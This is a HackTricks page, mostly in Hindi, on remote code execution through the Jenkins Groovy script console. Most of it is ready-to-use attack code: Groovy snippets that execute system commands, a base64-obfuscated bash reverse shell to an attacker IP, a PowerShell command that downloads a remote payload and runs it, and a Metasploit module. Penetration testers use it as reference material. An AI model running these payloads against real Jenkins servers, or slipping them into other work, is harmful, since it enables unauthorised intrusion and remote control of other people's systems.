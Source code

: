 # Jenkins RCE with Groovy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Jenkins RCE with Groovy Script

यह जेनकिंस में एक नया प्रोजेक्ट बनाने की तुलना में कम शोर करता है

1. _path\_jenkins/script_ पर जाएं
2. टेक्स्ट बॉक्स के अंदर स्क्रिप्ट डालें
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
आप एक कमांड का उपयोग करके निष्पादित कर सकते हैं: `cmd.exe /c dir`

**linux** में आप कर सकते हैं: **`"ls /".execute().text`**

यदि आपको टेक्स्ट के अंदर _उद्धरण_ और _एकल उद्धरण_ का उपयोग करने की आवश्यकता है। आप _"""PAYLOAD"""_ (ट्रिपल डबल उद्धरण) का उपयोग करके पेलोड निष्पादित कर सकते हैं।

**एक और उपयोगी groovy स्क्रिप्ट** है (स्थानापन्न \[INSERT COMMAND]):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### लिनक्स में रिवर्स शेल
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Windows में रिवर्स शेल

आप एक PS रिवर्स शेल के साथ HTTP सर्वर तैयार कर सकते हैं और इसे डाउनलोड और निष्पादित करने के लिए Jeking का उपयोग कर सकते हैं:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### Script

आप इस प्रक्रिया को [**इस स्क्रिप्ट**](https://github.com/gquere/pwn_jenkins/blob/master/rce/jenkins_rce_admin_script.py) के साथ स्वचालित कर सकते हैं।

आप रिवर्स शेल प्राप्त करने के लिए MSF का उपयोग कर सकते हैं:
```
msf> use exploit/multi/http/jenkins_script_console
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
